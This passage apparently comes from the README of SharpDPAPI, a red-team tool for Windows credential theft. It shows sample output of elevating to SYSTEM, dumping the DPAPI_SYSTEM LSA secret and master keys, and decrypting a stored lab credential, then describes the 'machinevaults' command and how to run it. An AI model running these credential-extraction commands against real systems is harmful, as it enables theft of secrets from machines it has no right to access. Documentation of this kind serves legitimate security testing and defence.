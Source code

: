     [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...


    [*] Triaging System Credentials


    Folder       : C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

      CredFile           : C73A55F92FAE222C18A8989FEA28A1FE

        guidMasterKey    : {1cb83cb5-96cd-445d-baac-49e97f4eeb72}
        size             : 544
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32782/26128
        description      : Local Credential Data

        LastWritten      : 3/24/2019 7:08:43 PM
        TargetName       : Domain:batch=TaskScheduler:Task:{B745BF75-D62D-4B1C-84ED-F0437214ECED}
        TargetAlias      :
        Comment          :
        UserName         : TESTLAB\harmj0y
        Credential       : Password123!


    Folder       : C:\WINDOWS\ServiceProfiles\LocalService\AppData\Local\Microsoft\Credentials

      CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

        ...(snip)...


#### machinevaults

The **machinevaults** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Vaults.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinevaults

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Vault Triage
